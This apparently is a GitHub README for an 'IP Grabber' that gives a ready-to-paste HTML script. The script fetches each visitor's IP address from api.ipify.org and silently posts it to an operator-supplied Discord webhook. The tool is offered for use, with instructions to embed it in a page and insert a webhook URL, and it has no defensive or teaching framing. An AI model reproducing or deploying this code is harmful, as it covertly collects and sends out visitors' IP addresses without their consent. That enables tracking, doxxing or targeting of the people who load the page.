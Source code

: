 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script uses JavaScript's `fetch` API to send a GET request to `https://api.ipify.org` to obtain the user's IP address. It then sends a POST request to a Discord webhook URL with the obtained IP address as the payload.

## Usage

Simply include the script in your HTML file:

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK_HERE', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>

##Make sure to replace "YOUR_DISCORD_WEBHOOK_HERE" with your actual Discord webhook URL.
